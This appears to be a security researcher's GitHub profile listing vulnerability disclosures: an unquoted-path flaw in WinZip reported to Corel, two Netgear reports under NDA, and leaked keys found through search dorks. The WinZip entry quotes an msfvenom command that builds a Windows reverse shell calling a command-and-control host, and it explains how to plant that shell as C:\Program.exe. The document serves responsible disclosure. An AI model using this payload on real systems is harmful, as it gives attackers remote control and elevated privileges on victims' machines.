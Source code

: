 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf
- Credited: https://support.corel.com/hc/en-us/articles/217086227
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 


### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys


